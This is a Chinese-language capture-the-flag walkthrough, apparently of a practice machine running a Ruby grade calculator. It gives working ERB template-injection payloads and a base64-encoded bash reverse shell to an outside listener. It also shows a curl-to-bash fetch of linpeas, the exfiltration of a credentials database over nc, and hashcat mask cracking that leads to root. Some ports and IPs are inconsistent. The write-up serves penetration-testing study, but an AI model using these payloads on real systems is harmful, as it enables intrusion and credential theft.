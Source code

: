 # 信息收集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.11.253 -oA scans/ports
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
...
```

可以看到开放了22,80端口，22端口的渗透优先级肯定要靠后，先看看80端口，用dirsearch来扫描一下网站目录看看能不能爆出有用信息出来

## 目录FUZZ

```
root@kali# dirsearch -u http://10.10.11.253
...
[13:54:48] Starting: 
[13:55:28] 200 -    4KB - /about
...
```

## Web信息收集

是一个根据权重计算总成绩的网站

![截图](244086e5ad93e593750c072de7a8628c.png)

Wappalyzer查看网页用的什么编写搭建的

![截图](9c389c37b5aaa4cb62865f504e5f118e.png)

 可以看到网站的一些基本信息，例如使用了WEBrick1.7.0,以及语言是ruby，这就找到了两个比较有用的信息，WEBrick是ruby 中内嵌的 HTTP 服务器程序库，这更加使我们确定了服务器是利用ruby语言搭建的，那么**像ruby、python这样的用高级语言搭建的服务器一般是利用通用模板搭建的**，就会有**可能存在SSTI（Server Side Tamplate Injection）漏洞**，这是一个有可能的突破点。

# 漏洞检测与利用

上文提到可能存在SSTI攻击，于是我们就要去测试一下是否存在，SSTI和SQL注入的原理基本类似，都是通过传参来闭合语句，同时在语句外部来执行恶意代码造成RCE（Remote Code Execute）攻击，所以我们要找到一个能传参的地方，而这个网站是一个网页计算器，我们就可以尝试通过往里输入恶意代码来测试是否存在漏洞，于是我们输入以下信息

![截图](3acf00cc45116d3cb78c5025603bde7b.png)

尝试可能的Ruby的模板：

[SSTI (Server Side Template Injection) | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby)

![截图](78b17173c56e2810718c741cd7cb27ea.png)

![截图](7fa412ae967909c1015861de16a0d947.png)

提示malicous input，说明我们有语句触发关键词黑名单了，于是我们使用burp抓包看能不能解决问题

![截图](c442af3113f256cc0b33e956ee66cb49.png)

```
aaa
<%=+File.open('/etc/passwd').read+%>
```

- %0A是截断符号，它可以使bash在读取代码时读到这个符号时停止读取这一行的后续代码，取而代之的是接着执行后面的代码

- 在传参中url编码会自动忽略空格要用“+”来代替上述语句
- 将payload使用base64编码来进行嵌套，为了避免后面可能会有一些关键字过滤

## 反弹shell

首先是确定基本payload语句

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.88/6666 0>&1
```

于是为了payload顺利执行，也为了避免后面可能会有一些关键字过滤，我们直接将payload使用base64编码来进行嵌套，这也是我们反弹shell的常用手段

![截图](ccdcc681b959e2a77ef08d8ce4dc56c3.png)

![截图](5c640f898d9abb3ae37ba9ee6b271c7e.png)

这里很奇怪，如果我们直接把payload编码为base64会无法执行，但是如果我们从“-i”这个地方把payload分开来编码再拼在一起就可以，所以我们得到如下payload（base64格式）

```
IyEvYmluL2Jhc2gKYmFzaCAtaSA=PiYgL2Rldi90Y3AvMTAuMTAuMTQuODgvODg2NiAwPiYxIA==
```

这就是最终的payload了，再代入post数据包中

```
category1=aaa%0a<%25=system("echo+IyEvYmluL2Jhc2gKYmFzaCAtaSA=PiYgL2Rldi90Y3AvMTAuMTAuMTQuODgvODg2NiAwPiYxIA==|+base64+-d+|+bash");%25>;&grade1=1&weight1=20&category2=bb&grade2=1&weight2=20&category3=cc&grade3=1&weight3=20&category4=dd&grade4=1&weight4=20&category5=ee&grade5=1&weight5=20
```

然后开启一个终端输入

```
nc -nlvp 8866
```

![截图](abec2ddcc57cbea670b71799c489269a.png)

shell成功反弹！

# 提权

```
find / -perm -u=s -type f 2>/dev/null
```

该命令用来查找在linux系统中拥有suid权限位的文件，SetUID（Set User ID）是一种权限位，它允许一个可执行文件在执行时临时以文件所有者的权限运行，而不是执行者的权限。通过设置SetUID权限位，普通用户可以在执行特权命令（如系统管理员的命令）时获得相应的特权。

![截图](b86e4731c30dbbd17b248a73904a2d8a.png)

好像也没有什么可以利用的，传入**linpeas**看看提权吧，在有linpeas.sh的文件夹下用python开启http服务

> GitHub链接：https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
> 
> LinPEAS 是一个没有任何依赖的脚本，它使用/bin/sh语法，用于搜索在 Linux/Unix*/MacOS 主机上搜索可能的权限提升路径。默认情况下，LinPEAS 不会向磁盘写入任何内容，也不会尝试以任何其他用户身份使用 su 。
> 
> 该脚本工具枚举并搜索主机内部可能的错误配置（已知漏洞、用户、进程和文件权限、特殊文件权限、可读/可写文件、暴力破解其他用户（top1000pwds）、密码…），并用颜色突出显示可能的错误配置。

```
python3 -m http.server 1234 -d ./
```

然后在靶机上访问我们的端口来执行linpeas.sh

```
cd /tmp | curl http://10.10.11.253:1234/linpeas.sh | bash
```

![截图](d57257538e469b3c5cfd2fdc613a534e.png)

## db文件泄露

这里看到爆出了一个db文件,我们把它下载下来看看,我们利用nc来传输

```
本机:nc -nlvp 1111 > test.db
靶机:nc 10.10.11.253 1111 < pupilpath_credentials.db
```

![截图](66e2bbac9bc02c61adb0bb7932542102.png)

## Hashcat破解密码

有若干个用户名以及密码，将他们放入john查看是否能够破解

![截图](03e7ef3a38306583e7916be48c12aa6b.png)

破解失败，可能是加密方式不对，继续查找敏感信息，发现在/var/spool/mail中有一段关于密码的提示

![截图](bfe2afc75a7ea91dfe2328bf8ea1450c.png)

大概意思就是需要用户自己重置密码，重置的格式为{名字_名字的逆序_在(1,1000000000)之间的一个随机数}，尝试使用hashcat的掩码爆破功能破解

```
hashcat -m 1400 -a 3 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f susan_nasus_?d?d?d?d?d?d?d?d?d
```

其中-a指定破解模式，3为指定掩码破解，后面跟的第一个参数为密文，第二个参数为要爆破的数值

![截图](214fdd0c6e44c95a2160aa374df70770.png)

可以看到，爆破出来的密码为：susan_nasus_413759210，使用susan/susan_nasus_413759210登录到主机

```
ssh susan@10.10.11.253
```

```
sudo su root
```

![截图](857a8c65d497187d3ed0d3f95c649706.png)